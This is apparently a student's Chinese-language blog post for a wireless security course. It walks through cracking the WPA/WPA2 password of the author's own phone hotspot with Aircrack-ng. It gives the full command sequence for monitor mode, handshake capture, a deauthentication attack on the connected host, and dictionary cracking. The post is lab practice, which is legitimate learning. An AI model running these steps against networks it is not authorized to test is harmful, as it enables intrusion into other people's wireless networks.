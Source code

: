```yaml
---
title: 窥间伺隙：Aircrack 套件破解 WPA/WPA2 密码
date: 2020-10-18 13:24:01
tags:
  - Kali
  - 网络
  - 实践记录
categories:
  - 安全工具
featuredImage: https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/AircrackWPA/0.jpg
---
```


《无线网络安全》作业。梦回大一。

<!--more-->

## 准备工作

手机开启热点，设置弱密码 `merc123321`，热点 SSID 为 `nova 4`。物理机连接 `nova 4` 无线网络作为被害主机。

![图 1]({{< param cdnPrefix >}}/AircrackWPA/1.png)

为 Kali 虚拟机添加无线网卡，随后即可在 `ifconfig` 的输出中看到 `wlan0` 网卡：

![图 2]({{< param cdnPrefix >}}/AircrackWPA/2.png)

首先启动监听：

```bash
sudo airmon-ng start wlan0
```

结果如图：

![图 3]({{< param cdnPrefix >}}/AircrackWPA/3.png)

此时 `ifconfig` 可以看到 `wlan0mon` 监听网卡：

![图 4]({{< param cdnPrefix >}}/AircrackWPA/4.png)

随后扫描无线网络：

```
sudo airodump-ng wlan0mon
```

结果如图，可以看到 `nova 4` 网络的 BSSID 为 `D8:9B:3B:9E:AB:A9`。

![图 5]({{< param cdnPrefix >}}/AircrackWPA/5.png)

利用该 BSSID 过滤掉其余网络流量：

```
sudo airodump-ng -c 11 --bssid D8:9B:3B:9E:AB:A9 -w psk wlan0mon
```

结果如图：

![图 6]({{< param cdnPrefix >}}/AircrackWPA/6.png)

## 捕获 WPA 握手包

此时我们需要捕获到 WPA 握手包，因此可以攻击一个已经连接到该网络的主机（即我们的物理机），让它强制掉线并重连产生握手包。

首先查看被害主机 MAC 地址：

![图 7]({{< param cdnPrefix >}}/AircrackWPA/7.png)

可以看到 MAC 地址为 `F4:8C:50:9F:E5:43`。实际上，在前面 `airodump-ng` 时的界面中也可以直接看到连接了该网络的主机 MAC 地址。随后发送 `DeAuth` 包使其掉线：

```
sudo aireplay-ng -0 1 -a D8:9B:3B:9E:AB:A9 -c F4:8C:50:9F:E5:43 wlan0mon
```

出现 `WPA handshake` 即捕获到了握手包，可以停止捕获了。

![图 8]({{< param cdnPrefix >}}/AircrackWPA/8.png)

## 口令破解

此时在目录下会生成 `psk-01.cap` ，我们使用 `aircrack-ng` 进行口令破解：

```
sudo aircrack-ng -w password.lst -b D8:9B:3B:9E:AB:A9 psk*.cap
```

使用的字典中包含了 `merc123321` 这个真正的密码：

```shell
$ cat password.lst
merc123
merc1234
merc123456
123merc
1234merc
123456merc
merc123321
merc321123
```

最后即可成功破解：

![图 9]({{< param cdnPrefix >}}/AircrackWPA/9.png)